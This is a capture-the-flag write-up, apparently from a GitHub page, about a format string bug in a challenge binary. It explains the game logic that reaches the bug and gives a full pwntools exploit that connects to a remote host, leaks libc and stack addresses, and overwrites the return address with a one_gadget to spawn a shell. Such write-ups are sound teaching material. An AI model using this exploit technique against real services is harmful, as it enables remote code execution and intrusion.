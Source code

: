 ```c
  return 0LL;
}
```
In `vuln()` function you can cleary see fsb.

Looking at this logic, it seems like the vulnerability should be triggered by playing the game.
But if you look closely at the `main_logic`, there is no need to perform this game.

```c
      while ( getchar() != '\n' )
        ;
      if ( v0 != 68 )
        break;
      vuln();
```
In `main_logic`, user input is checked, and if it is `68`, the vuln function is executed.
However, we cannot input 68 through input, and before the `main_logic` function is executed, lucky_number is selected once, and `68` should come out here. And if we give input other than "0,1,2", 68 will be checked as it is, and the `vuln` function can be called.

Leak the libc address and the stack address of ret through fsb, and then trigger fsb again to get a shell with `one_gadget`.

### Exploit
```py
from pwn import *
from ctypes import *

context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]
context.bits = 64

libc = CDLL("./libc.so.6")

while True:
    # p = process("./chal", env={"LD_PRELOAD":"./libc.so.6"})
    p = remote('152.69.210.130', 2004)
    p.recvuntil(b': ')
    lucky_number = int(p.recvline().strip())
    if lucky_number == 68:
        break
    else: 
        p.close()

# gdb.attach(p, '''
# b *0x401596           
# ''')

p.sendline(b'a')
p.sendlineafter(b':', b'%3$p_%5$p')

p.recvuntil(b'0x')
libc_base = int(p.recvuntil(b'_', drop=True), 16) - 0x1147e2
log.info(f"libc: {hex(libc_base)}")

stack_leak = int(p.recvuntil(b'\n', drop=True), 16)
ret_addr = stack_leak + 0x2281
log.info(f"ret_addr: {hex(ret_addr)}")

og = libc_base + 0xebc85
fsb_payload = fmtstr_payload(6, {ret_addr: og}, write_size='short')

p.sendline(b'a')
p.sendlineafter(b':', fsb_payload)

```